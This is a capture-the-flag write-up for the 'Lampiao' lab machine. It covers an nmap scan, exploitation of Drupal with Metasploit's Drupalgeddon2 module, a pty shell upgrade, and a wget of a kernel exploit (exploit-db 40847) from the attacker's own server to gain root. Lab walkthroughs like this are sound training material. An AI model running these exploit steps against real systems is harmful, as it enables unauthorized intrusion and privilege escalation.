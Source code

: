 # Lampiao
Points - 5  
Difficulty - Easy
---

As always we first start with scanning the  ip address      
```
$ nmap -A -p- ip_address
```
The full port scan shows a Drupal interface on port 1898

![](images/scan1.png)

Lets fire up metasploit and check if there's an exploit     
```
msf6 > search drupal 7
```
From googling Drupal 7 exploit we find that there's an exploit called **Drupalgeddon2**
Select the one with Drupalgeddon2 => **exploit/unix/webapp/drupal_drupalgeddon2**       
You can check the requirements needed by just typing in     
```
show OPTIONS
```
For setting the parameters use
```
set parameter ip_address/port
```
Set the RHOSTS, RPORTS correctly and don't forget that for LHOSTS you have to enter the ip from the vpn pack and finally enter **exploit** or **run** for metasploit to run the exploit         

![](images/meterpreter1.png)

Use the below command to get a python interactive shell
```
python -c "import pty; pty.spawn(\"/bin/bash\")"
```   

I checked the kernel version on the system      

![](images/kernel.png)      

Googling an exploit for the version I found one on [exploit-db](https://www.exploit-db.com/exploits/40847). I downloaded this file onto my local computer and hosted a python server in that directory to wget onto the target machine.     

I know downloading directly onto the taget machine would have been easier but for some reason it was not connecting to the exploit-db site.

You can setup a local python server using
```
$ python3 -m http.server port
```

Download the file onto the /tmp directory
```
wget http://your_ip_address:port/40847.cpp
```

Follow the instructions in the C file to run the exploit.   

After compiling and running the file, voila we are root.
The command to compile is given in the exploit cpp file, use that.

![](images/root.png)

Navigate to the root and home directory to find the flags.